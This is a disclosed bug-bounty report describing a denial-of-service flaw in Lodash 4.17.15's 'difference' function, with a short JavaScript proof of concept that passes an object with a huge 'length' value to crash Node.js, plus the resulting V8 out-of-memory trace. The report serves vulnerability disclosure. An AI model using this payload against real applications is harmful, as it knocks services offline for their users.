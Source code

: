 # Lodash "difference" (possibly others) Function Denial of Service Through Unvalidated Input

## Report Details
- **Report ID**: 670779
- **URL**: https://hackerone.com/reports/670779
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-08-09T23:22:49.175Z
- **Disclosed**: 2019-12-04T19:49:06.258Z

## Reporter
- **Username**: spengietz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
> NOTE! Thanks for submitting a report! Please replace *all* the [square] sections below with the pertinent details. Remember, the more detail you provide, the easier it is for us to triage and respond quickly, so be sure to take your time filling out the report!

I would like to report a denial of service in Lodash.
It allows excessive usage of the NodeJS process's memory, leading to a "JavaScript heap out of memory" crash. The same vulnerability exists in the browser version of Lodash and causes Firefox's tab to crash and restart and causes Chrome's tab to completely freeze and become uncloseable (from my testing at least).

# Module

**module name:** Lodash
**version:** Only tested in 4.17.15
**npm page:** `https://www.npmjs.com/package/lodash`

## Module Description

> Copy description from npm page

A modern JavaScript utility library delivering modularity, performance & extras.
The Lodash library exported as Node.js modules.

## Module Stats

> Replace stats below with numbers from npm’s module page:

24,853,923 downloads in the last week
I can't find where it lists the daily/monthly downloads

# Vulnerability

## Vulnerability Description

> Description about how the vulnerability was found and how it can be exploited, how it harms package users (data modification/lost, system access, other.

The vulnerability was discovered while pentesting a web application for a client. The Lodash "difference" function (https://github.com/lodash/lodash/blob/4.17.15/lodash.js#L6947) uses the "baseDifference" function (https://github.com/lodash/lodash/blob/4.17.15/lodash.js#L2764) to perform what it needs to. "difference" is supposed to accept two arrays (`_.difference(array, [values])`) but it does not actually verify whether it is dealing with valid arrays before processing the data. This means a custom malicious Object can be supplied and the function will think it is an array, allowing excessive memory consumption that ends up in a crash of the Node.js process (or crash/freeze of the browser tab in Firefox/Chrome).

It was found to be exploitable in the clients application because they were passing user-supplied data into the "difference" function, which allowed me to crash their application with this vulnerability.

## Steps To Reproduce:

> Detailed steps to reproduce with all required references/steps/commands. If there is any exploit code or reference to the package source code this is the place where it should be put.

Benign example:
```
const _ = require('lodash')

user_supplied_array = [1, 2, 3]
values_to_compare_to = {'length': 5} // An object with the "length" property defined to an integer will be accepted as an array by the _.difference function

_.difference(values_to_compare_to, user_supplied_array) // This will output a new array of length 5 where each value is "undefined"
```

Because Lodash is essentially creating a new array of the length that we specify in "values_to_compare_to", we can provide a large value that will cause the Node.js process to crash before it can successfully create the array.

Will crash Node.js example:
```
const _ = require('lodash')

user_supplied_array = [1, 2, 3]
values_to_compare_to = {'length': 99999999999} // This could be any huge value

_.difference(values_to_compare_to, user_supplied_array) // The Node.js process will crash, saying that the JavaScript heap ran out of memory
```

When the Node.js process crashes, a stack trace similar to the following is output:
```
[5515:0x55aa82652700]    41959 ms: Mark-sweep 580.0 (585.7) -> 580.0 (585.7) MB, 201.8 / 0.0 ms  allocation failure GC in old space requested
[5515:0x55aa82652700]    42169 ms: Mark-sweep 580.0 (585.7) -> 579.9 (584.2) MB, 209.7 / 0.0 ms  last resort GC in old space requested
[5515:0x55aa82652700]    42372 ms: Mark-sweep 579.9 (584.2) -> 579.9 (584.2) MB, 203.2 / 0.0 ms  last resort GC in old space requested


<--- JS stacktrace --->

==== JS stack trace =========================================

Security context: 0x2eaefaca5729 <JSObject>
    1: baseDifference [/root/temp/tmp/node_modules/lodash/lodash.js:~2764] [pc=0x11aea9f0d272](this=0x28b6ba70c0f9 <JSGlobal Object>,array=0x3dd3a43ca4c9 <Object map = 0x1294fe65a571>,values=0x3dd3a43ca4a9 <JSArray[2]>,iteratee=0x3dd3a43822d1 <undefined>,comparator=0x3dd3a43822d1 <undefined>)
    2: arguments adaptor frame: 2->4
    3: /* anonymous */ [/root/temp/tmp/node_modules/lodash/lodash.j...

FATAL ERROR: CALL_AND_RETRY_LAST Allocation failed - JavaScript heap out of memory
 1: node::Abort() [node]
 2: 0x55aa808c347e [node]
 3: v8::Utils::ReportOOMFailure(char const*, bool) [node]
 4: v8::internal::V8::FatalProcessOutOfMemory(char const*, bool) [node]
 5: v8::internal::Factory::NewUninitializedFixedArray(int) [node]
 6: 0x55aa80448b1d [node]
 7: v8::internal::Runtime_GrowArrayElements(int, v8::internal::Object**, v8::internal::Isolate*) [node]
 8: 0x11aea9d842fd
Aborted
```


## Patch

> If you're able to provide a patch with the fix please post it in this section

I don't know specifically, but it seems that proper verification that both inputs are arrays would fix this.

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

Tested on two separate operating systems with the same end results.
Windows:
- Windows 10
- Node.js v8.9.4
- npm version 5.6.0
- Firefox 68.01 and Chrome 76.0.3809.100 when testing the browser version of Lodash

Linux:
- Kali Linux
- Node.js v9.0.0
- npm version 6.1.0
- Did not test in Firefox/Chrome on this operating system

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: N, it said to report it here
- I opened an issue in the related repository: N, it said not to publicly disclose it until after

## Impact

An attacker could cause excessive resource consumption which could slow down the server for other users or they could cause an outright crash of the Node.js process, denying service to all users of the application.

## Attachments
No attachments
